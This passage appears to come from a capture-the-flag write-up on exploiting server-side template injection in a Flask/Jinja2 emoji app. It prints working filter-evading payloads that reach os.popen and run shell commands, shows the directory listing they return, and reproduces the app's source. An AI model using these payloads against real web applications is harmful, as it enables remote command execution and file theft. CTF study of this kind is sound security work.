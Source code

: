 ```text
{{ [[""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fmro\x5f\x5f")][0][1]|attr("\x5f\x5fsubclasses\x5f\x5f")()][0][127] }}
```

This should return `<class 'os._wrap_close'>`.

### Grabbing the file

Now that we've got the `os` module, we can use it's `popen` function to execute commands. Let's try to list the work directory using the following input:

```text
{{ [[[""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fmro\x5f\x5f")][0][1]|attr("\x5f\x5fsubclasses\x5f\x5f")()][0][127]|attr("\x5f\x5finit\x5f\x5f")|attr("\x5f\x5fglobals\x5f\x5f")][0]["popen"]("ls -lA")|attr("read")() }}
```

It worked! We got the following result:

```text
total 28
dr-xr-xr-x    1 app      app           4096 Nov 28 14:15 __pycache__
-r--r--r--    1 app      app           1571 Nov 28 14:15 app.py
-r--r--r--    1 app      app             93 Nov 28 14:15 requirements.txt
-r-xr-xr-x    1 app      app             26 Nov 28 14:15 serve.sh
dr-xr-xr-x    1 app      app           4096 Nov 28 14:15 static
-rw-r--r--    1 root     root             2 Dec  2 13:53 supervisord.pid
dr-xr-xr-x    1 app      app           4096 Nov 28 14:15 templates
```

Now let's grab the contents of `app.py`:

```text
{{ [[[""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fmro\x5f\x5f")][0][1]|attr("\x5f\x5fsubclasses\x5f\x5f")()][0][127]|attr("\x5f\x5finit\x5f\x5f")|attr("\x5f\x5fglobals\x5f\x5f")][0]["popen"]("cat app\x2epy")|attr("read")() }}
```

{{< collapsible-block badge="python" title="app.py" >}}

```py
import random
from flask import Flask, render_template_string, render_template, request
import os
import emojis

app = Flask(__name__)
app.config['SECRET_KEY'] = 'Leer alles over Software Security bij Arjen (follow @credmp) at https://www.novi.nl'

def magic(flag, key):
    return ''.join(chr(x ^ ord(flag[x]) ^ ord(key[x]) ^ ord(key[::-1][x])) for x in range(len(flag)))

file = open("/tmp/flag.txt", "r")
flag = file.read()

app.config['flag'] = magic(flag, '46e505c983433b7c8eefb953d3ffcd196a08bbf9')
flag = ""

os.remove("/tmp/flag.txt")

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        emoji="unknown"
        try:
            p = request.values.get('emoji')
```